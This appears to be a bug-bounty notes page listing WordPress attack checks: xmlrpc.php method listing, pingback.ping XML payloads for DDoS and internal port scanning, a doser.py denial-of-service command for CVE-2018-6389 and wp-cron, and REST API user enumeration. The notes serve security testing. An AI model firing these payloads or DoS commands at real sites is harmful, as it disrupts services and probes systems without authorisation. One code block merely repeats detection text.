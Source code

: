 ```yaml
---
title: CMS
toc: true
date: 2021-04-14 11:42:59
tags: Summary
categories: [100 Cyber security, 110 Bug bounty, 112 Ideas]
---
```


## Wordpress

1. Wordpress Detection
  * Wappalyzer
  * WhatRuns
  * BuildWith
1. General Scan Tool
  * WpScan
1. xmlrpc.php
  * one of the common issue on wp, to get credit, u need to fully exploit n show the impact.
  * detection:
    * site.com/xmlrpc.php
    * Get the error message about POST request only
  * exploit
    ***ref: https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/***
    ***https://the-bilal-rizwan.medium.com/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32***
    * Intercept the request and change the method GET to POST
    * List all Methods
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
  * pingback.ping DDoS

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

  * pingback.ping SSRF (internal PORT scan only)

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
  * tools
  xmlrpc-scan https://github.com/nullfil3/xmlrpc-scan

1. CVE-2018-6389 (wp <= 4.9.3)
  * detection
    * https://gist.github.com/remonsec/4877e9ee2b045aae96be7e2653c41df9
  * exploit
    * use DDoS (Doser https://github.com/quitten/doser.py)

    ```
python3 doser.py -t 999 -g 'https://site.com/fullUrlFromLoadsxploit'
    ```

1. WP Cornjob DOS
  * detection
    * view site.com/wp-cron.php, You will see a Blank page with 200 HTTP status code
  * exploit
    * same tool as above (Doser)

    ```
    You will see a Blank page with 200 HTTP status code
    ```
    ***ref: https://medium.com/@thecpanelguy/the-nightmare-that-is-wpcron-php-ae31c1d3ae30***
1. WP User Enumeration
  * site.com/wp-json/wp/v2/users/
  * mostly not acceptable, can be used to extend the impact tho
